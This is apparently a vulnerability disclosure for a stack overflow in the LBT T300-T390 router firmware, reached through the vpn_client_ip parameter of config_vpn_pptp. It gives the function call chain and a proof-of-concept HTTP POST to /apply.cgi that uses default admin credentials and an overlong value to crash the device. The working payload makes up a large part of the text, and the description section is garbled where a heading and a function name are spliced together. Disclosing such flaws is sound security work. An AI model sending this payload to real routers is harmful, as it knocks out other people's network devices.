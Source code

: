 # LBT router config_vpn_pptp function stack overflow vulnerability

> vendor:LBT
>
> product:T300-T390
>
> version:v2.2.1.8
>
> type:Stack Overflow

## Vulnerability Description

LBT T-T390 were discovered to contain a stack overflow via the vpn_client_ip parameter in the config_vpn_pptp function.

## Vulnerability De
The calling process of this overflow function is as follows. The vpn_client_ip variable in the config_vpn_pptp function in the Rc program has a stack overflow. The rc program is started through its symbolic link init. The variable is obtained through the system NVRAM_GEtails
T function. The attacker can modify the request packet parameters through the VPN_PPTP.asp page. Incoming, ultimately causing a server denial attack.

The calling process of the overflow function is as follows:

Main()-> sub_40BEB8()-> start_single_service()->connect_vpn()->start_vpn_pptp()->config_vpn_pptp()

![image](https://github.com/cvdyfbwa/IoT_LBT_Router/assets/150313831/3b72c78c-67f3-40c3-a495-3011c66759ec)
![image](https://github.com/cvdyfbwa/IoT_LBT_Router/assets/150313831/fac6ee10-294a-45e0-ba16-40494f114270)


## POC

    POST /apply.cgi HTTP/1.1
    Host: 192.168.10.1
    Content-Length: 911
    Cache-Control: max-age=0
    Authorization: Basic YWRtaW46YWRtaW4=
    Upgrade-Insecure-Requests: 1
    Origin: http://192.168.10.1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://192.168.10.1/VPN_PPTP.asp
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

    submit_button=VPN_PPTP&change_action=&vpn_pptp_auto=0&vpn_pptp_only=0&vpn_type=PPTP&vpn_pptp_enable=1&vpn_nat_enable=1&vpn_dns_enable=1&action=Apply&wb_pptp_enable=on&vpn_pptp_server=192.168.10.1&vpn_pptp_username=a&vpn_pptp_passwd=a&vpnc_auth=0&vpn_pptp_mppe=0&vpnc_stateful=0&vpn_pptp_mtu=1450&vpn_pptp_mru=1450&vpn_client_ip=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&vpn_pptp_redial_count=10&vpn_dst_enable=0&vpn_check_mode=0&web_vpn_nat_enable=on&web_vpn_dns_enable=on


